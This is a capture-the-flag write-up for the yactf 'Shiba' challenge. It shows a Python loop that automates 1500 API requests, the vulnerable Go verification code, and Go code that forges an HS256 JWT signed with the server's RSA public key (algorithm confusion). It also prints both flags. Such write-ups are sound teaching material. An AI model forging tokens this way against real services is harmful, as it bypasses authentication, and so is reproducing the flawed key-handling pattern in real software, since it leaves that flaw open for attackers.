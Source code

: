 # Shiba

## Baby Challenge

The first challenge was simply to "press Boop 1500 times".

We could automate the API requests.

```python
import requests

session = requests.Session()
session.get('https://shiba.yactf.ru/')

for i in range(1500):
    r = session.get('https://shiba.yactf.ru/api/boop')
    print(i, r.text)

r = session.get('https://shiba.yactf.ru/')
print(r.text)
print(session.cookies.get_dict())
```

After 1500 iterations, we get the flag.

```
Gratz! Baby flag: yactf{b00p_bO0p_b0op_b00p_b0Op1Ty_bO0p}. But your real-flag is in another castle: at 1501 boops
```

## Hard Challenge

The goal of this challenge is to somehow get 1501 "boops". However, the server stops incrementing the "boops" after reaching 1500.

We could firstly see that the server uses JWT tokens to count the number of "boops".

![](<../../.gitbook/assets/Screenshot 2022-02-16 at 11.33.06 PM.png>)

The public key is provided in `/signature/key.pub`, which is hinted by `/robots.txt`.

```go
r := gin.Default()
r.Static("/static", "./static")
r.Static("/images", "./images")
r.Static("/signature", "./signature")
r.LoadHTMLGlob("templates/*.html")
r.GET("/robots.txt", func(c *gin.Context) {
    c.String(200, "//TODO PublicKey at /signature/key.pub")
})
```

Let's take a look at how the server processes the supplied JWT. The server accepts both HS256 and RS256 tokens, but notice that the public key, `verifyKey` is used to validate the JWT signature in both cases.

```go
verifyBytes, _ := ioutil.ReadFile(pubKeyPath)
verifyKey, _ = jwt.ParseRSAPublicKeyFromPEM(verifyBytes)

...

token, err := jwt.ParseWithClaims(cookie, &MyCustomClaims{}, func(token *jwt.Token) (interface{}, error) {
    if token.Method == jwt.SigningMethodHS256 {
        return x509.MarshalPKCS1PublicKey(verifyKey), nil
    }
    if token.Method == jwt.SigningMethodRS256 {
        return verifyKey, nil
    }
    return verifyKey, nil
})
```

This is interesting because we have knowledge of the public key. HMAC, by definition, does not have the concept of a public/private key pair - the signing and verification must be performed using the same secret key.

The private key, `signKey` is used to sign RS256 tokens, but note that we could just as easily generate our own HS256 token, using the known public key. This would then be validated by the server since the same public key is used for validation.

```go
signBytes, _ := ioutil.ReadFile(privKeyPath)
signKey, _ = jwt.ParseRSAPrivateKeyFromPEM(signBytes)

...

// Return new JWT TOKEN
returnClaims := MyCustomClaims{
	boops,
	jwt.StandardClaims{
		ExpiresAt: time.Now().Unix() + 15000,
		Issuer:    "Boops Company",
	},
}
returnToken := jwt.NewWithClaims(jwt.SigningMethodRS256, returnClaims)
tokenString, _ := returnToken.SignedString(signKey)
```

To do this, we simply sign a token with the public `verifyKey`.

```go
test := jwt.NewWithClaims(jwt.SigningMethodHS256, MyCustomClaims{
    1501,
    jwt.StandardClaims{
        ExpiresAt: time.Now().Unix() + 15000,
        Issuer:    "Boops Company",
    },
})
fmt.Println(test.SignedString(x509.MarshalPKCS1PublicKey(verifyKey)))
```

The flag is `yactf{Oh_G00d_pOor_ch3emS_5o_m4ny_boOpS}`.
